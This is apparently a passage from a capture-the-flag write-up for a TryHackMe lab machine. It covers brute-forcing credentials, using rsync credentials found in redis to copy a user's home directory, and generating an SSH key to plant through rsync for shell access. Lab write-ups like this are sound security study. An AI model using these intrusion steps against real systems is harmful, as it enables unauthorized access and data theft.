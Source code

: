 Scanned using nmap scripts but no luck so far. So I think we may have to bruteforce in order to get the credentials. So we do have some usernames while we were enumerating the smb server. so let's bruteforce and see if we can find anything.

### Gaining Access

As from the `redis` database, we got the `credentials` for `rsync` service, so let's connect and see what's inside.

So we do have credentials for `rsync` service. let's head there. found that there's a lot of file inside there, let's copy it locally.

```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ rsync -av rsync://rsync-connect@10.10.73.192/files remote_files
Password:
receiving incremental file list
created directory remote_files
./
sys-internal/
sys-internal/.Xauthority
sys-internal/.bash_history -> /dev/null
sys-internal/.dmrc
sys-internal/.profile
sys-internal/.rediscli_history -> /dev/null
sys-internal/.sudo_as_admin_successful
.....
```

looks we have the entire user directory. after enumerating we fount the `user.txt` user flag here `remote_files/sys-internal/user.txt`.

#### User Flag
```
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

and now that we can communicate to the target machine through `rsync` let's upload a ssh key and get the shell.

#### Getting Shell
Generating `ssh-keys`
```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/elliot/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:WyeVAcF56W8BSW6TKpPc/MJx3e9SrEoIWWwzaYmqzsI elliot@archlinux
The key's randomart image is:
+---[RSA 3072]----+
|         .o=oo   |
|         oo+=+   |
|        . XoB.   |
|       o O *.o.. |
|      . S B o..o.|
|     .   B B  o +|
| .  .   . + o. o.|
|  Eo       o  o. |
|   .o       .. ..|
+----[SHA256]-----+
[elliot@archlinux]  vulnnet_internal git:(main) ✗ ls
allports_initial  enum4linux.log  initial_rsync  redis.conf              rsync_bruteforce.log
attachments       id_rsa          mnt            remote_files            services.txt
```